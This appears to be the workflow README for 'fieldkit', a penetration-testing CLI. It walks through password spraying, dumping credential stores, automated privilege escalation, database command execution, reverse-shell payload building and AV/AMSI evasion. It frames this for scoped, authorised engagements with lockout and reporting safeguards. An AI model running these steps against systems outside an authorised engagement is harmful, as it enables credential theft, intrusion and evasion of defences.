

# fieldkit — the operator workflow

One page for a tester picking up fieldkit: **what a run looks like end to end, and every
branch to the finish.** Everything is a projection of one SQLite store — stop, inspect with
`status` / `analyze`, and resume at any fork without losing state. `fieldkit status` is
your board: phase, top-3 next moves, which hosts you're pwned on, preflight state.

## The map



## The canonical run

```bash
# 1 · set up
fieldkit init "ACME Corp"                                   # preflight inline: flags missing nxc/impacket here
fieldkit config set client=ACME lhost=10.10.14.9 lport=443 domain=corp.local
fieldkit scope allow 10.0.0.0/16                            # optional: refuse out-of-scope IPs
fieldkit scope deny 10.0.99.0/24                            # carve exceptions

# 2 · scope in — one of three forms
fieldkit add hosts 10.0.0.7                                 # a single IP
fieldkit add hosts 10.0.0.0/24                              # a CIDR range
fieldkit add hosts scope.txt                                # a file: IPs + CIDRs + # comments

# 3 · a credential you have (autodetects password / NT hash / LM:NT / domain / UPN / local)
fieldkit add cred 'corp.local/jdoe:Winter2025!'

# 4 · run the loop: spray → parse Pwn3d! → loot admin hosts → promote secrets → repeat
fieldkit spray smb                                          # foothold; loots svc_adm; pivots to the DC

# 5 · enumerate the foothold, then rank what it unlocked
fieldkit enum 10.0.0.7
fieldkit analyze

# 6 · escalate — the orchestrator walks ranked vectors, stops at first proof
fieldkit escalate 10.0.0.7 --allow config-change
# (offers to prep the first manual route inline; suggests enum + analyze + report after PROVEN)

# 7 · loot more (any order — each feeds the loop)
fieldkit spider 10.0.0.7                                    # SMB shares → GPP cpassword, unattend, kv-secrets
fieldkit scrub  10.0.0.5                                    # on-box configs on a Linux foothold
fieldkit mssql escalate 10.0.0.9  --allow config-change     # SQL login → sysadmin → xp_cmdshell
fieldkit postgres escalate 10.0.0.11                        # PG login → SET ROLE → COPY FROM PROGRAM
fieldkit mongodb escalate 10.0.0.12                         # unauth probe + role check + user dump
fieldkit roast --dc 10.0.0.10                               # crack offline, then add cred + spray
fieldkit delegation --dc 10.0.0.10
fieldkit adcs find --dc 10.0.0.10
fieldkit bloodhound import ./bh/

# 8 · deliver
fieldkit report --check                                     # anti-fabrication gate (refuses false-OK on empty)
fieldkit report --formats md,docx -o report                 # Findings + Observations + Credentials recovered
fieldkit report --cleanup -o report                         # INTERNAL revert checklist
fieldkit export-recce recce.json                            # fold proven findings back to recce
```

`status` is the board at any point; `analyze` re-ranks after every new fact.

## Every other iteration to the finish

The spine forks at each stage. These are the paths a real engagement takes.

### How you get IN
- **You have a cred** → `add cred` autodetects: `DOMAIN\user:pass`, `CORP/user:pass`, `user@corp.local:pass`, `user:LM:NT`, `.\Administrator:pass` (local), `--from-file`, or the individual `--user/--password/--hash/...` flags for edge cases.
- **You have a prior nxc capture** → `ingest nxc run.log` folds it in.
- **You have neither** → `wordlist` + `spray --wordlist`:
  - `fieldkit wordlist Acme Corp --years 2024 2025 --long --out p.txt` — seeds + inspectable mutation rules (cases/leet/suffix/prefix/combine/season/walks/wrapped). `--long` is the 12–16 char keyboard-walk + wrapped-phrase preset for modern policies. `wordlist --rules` shows every mutation.
  - `fieldkit spray --wordlist --userlist users.txt --passlist p.txt` — reads the lockout policy first and refuses to run beyond safe attempts per window unless `--allow-lockout-risk`.
- **The loop finds it** → `spray` loots SAM/LSA/NTDS on every admin host, promotes recovered secrets to creds, and re-sprays them **until dry**. Lockout-safe: each account only ever replays its *own* proven secret.

### Protocol branch — `spray smb | winrm | ssh | rdp | mssql | ldap | ftp`
- **smb (admin)** → loud command exec + loot. **winrm / ssh** → quiet non-admin foothold.
- Command execution rides **smb / winrm / ssh / mssql** (over xp_cmdshell). `rdp / ldap / ftp` validate credentials and feed the loop; not execution transports.
- **MSSQL / PostgreSQL / MongoDB** now have dedicated escalate paths — a *validated* login on those protocols is a starting point for `fieldkit mssql|postgres|mongodb escalate`.

### OS branch
Enum auto-picks Windows / Linux (SSH access infers Linux). Different OS ⇒ different vectors:
- **Linux**: sudo, SUID, caps, LD_PRELOAD, docker group, local-CVE matcher (kernel + sudo + polkit + glibc versions → 7 staged lin-kernel PoCs).
- **Windows**: SeImpersonate → Potato ladder, AlwaysInstallElevated, service-hijacks (unquoted, weak-perms, DLL plant), WIN_LPE matcher (`systeminfo` build + `wmic qfe` hotfixes → 5 staged win-kernel CVEs).

### How you ESCALATE (the richest fork)
- `escalate <host>` (auto, walks all ranked vectors) **vs** `run <host> <vector>` (fire one by hand).
- **Gate:** read-only runs freely; `config-change` / `crash-risk` need `--allow`.
- **Auto-provision on a miss:** tool absent → **auto-stage** from the arsenal (`--put-file`); payload absent → **auto-build** via `poc` (msfvenom/wixl/gcc) then stage; wrong arch → **rebuild** corrected and retry.
- **Evasion re-delivery:** a delivery caught by AV → marked red, loop **climbs the ladder** (native-exe → in-memory → script) in posture order. For SeImpersonate: every Potato variant, both `.exe` and reflectively-loaded in memory. AMSI bypass on the in-memory rung via `config set amsi_bypass=on`.
- **Manual routes** (overwrite a running binary / plant a DLL / kernel LPE — can't be one-shot at a client host): `escalate` surfaces them → **`prep <host> <vector>`** builds the artifact and prints where to place it + the exact steps (`--stage` uploads it). On interactive `escalate`, offered inline right after the outcome.
- **Side-trips:** `poc <fmt>` (standalone payloads; `--lhost/--lport` revshell; `--source` your own; `--obfuscate` via ConfuserEx), `poc --check`, `escalate --dry-run` (works before any cred is proven) / `--rules` / `--max` / `--no-stage`, `arsenal check`, `posture`, `lab test`.

### Loot chains that feed the loop
- **`spider <host>`** — SMB share spider + scrub. GPP cpassword (decrypted), unattend passwords, web.config connection strings, script-embedded `user`+`password`, sensitive filenames. Promotes cred hits. Records the downloaded corpus as a deletion obligation.
- **`scrub <host>`** — same scrubbers over a Linux foothold's `/etc /opt /home /var/www`. One `find | cat` pipeline.
- **`mssql escalate`** — non-sysadmin login? Tries xp_cmdshell directly, then EXECUTE AS impersonation. Upgrades access to admin on success; enum/escalate then run over xp_cmdshell.
- **`postgres escalate`** — superuser? / `pg_execute_server_program` member? / SET ROLE to a superuser? → `COPY FROM PROGRAM 'id'`. Upgrades access.
- **`mongodb escalate`** — unauth probe (Critical), role enum, user dump. `--scan-data` counts credential-shaped fields per app collection (values not captured; the operator dumps them under their ROE).

### AD depth feeds back
- `roast` → crack offline → `add cred` the cracked secret → `spray` again.
- `bloodhound import` finds owned→DA paths; `delegation` / `adcs` surface more routes. All land in `analyze`.

## Findings vs Observations (in the report)

The report separates two deliberately distinct results:

| | **Finding** | **Observation** |
|---|---|---|
| meaning | a weakness we **proved by exploiting it** | a weakness we **identified but did not exploit** |
| evidence | verbatim command + captured output (reproducible) | the enumeration output that surfaced it |
| in the report | full technical walkthrough + "Proof of compromise" + "Reached via" (which cred + source) + screenshot placeholders | "Potential impact (if exploited)" + "How to confirm" |
| status | a demonstrated compromise | real but **unconfirmed** — validate before relying on remediation |

`fieldkit report` includes **both** by default plus **Credentials recovered during testing**
(the audit trail: which cred, recovered via which mechanism). `--proven-only` gives the tight
Findings-only deliverable. `report --check` (anti-fabrication) gates on Findings — an
Observation legitimately has no PoC to check. Empty engagement? `report` refuses to write
empty deliverables cleanly (`--force` to override).

## Command quick-reference

| Stage | Command |
|---|---|
| set up | `preflight` · `init` (preflight inline) · `config set/show/get/unset` · `scope allow/deny/show/clear` |
| scope | `add hosts <IP\|CIDR\|file>` `[--dc]` |
| creds | `add cred <spec>` `[--from-file]` · `wordlist <seed...> --long -o p.txt` |
| loop | `spray <proto>` · `spray --wordlist --userlist ... --passlist ...` · `ingest nxc <log>` |
| board | `status` · `analyze` `[--proof]` |
| escalate | `enum <ip>` · `run <ip> <vector>` · `escalate <ip> [--allow ...] [--dry-run]` |
| provision | `prep <ip> <vector> [--stage]` · `poc <fmt> [--lhost/--lport]` · `poc --obfuscate <exe>` · `arsenal` |
| loot | `spider <ip>` · `scrub <ip>` |
| databases | `mssql escalate <ip>` · `postgres escalate <ip>` · `mongodb escalate <ip>` |
| AD | `roast --dc <ip>` · `delegation --dc <ip>` · `adcs find --dc <ip>` · `bloodhound import <dir>` |
| evasion | `posture` · `lab test` |
| deliver | `report [--proven-only\|--check\|--cleanup\|--force]` · `export-recce <json>` |
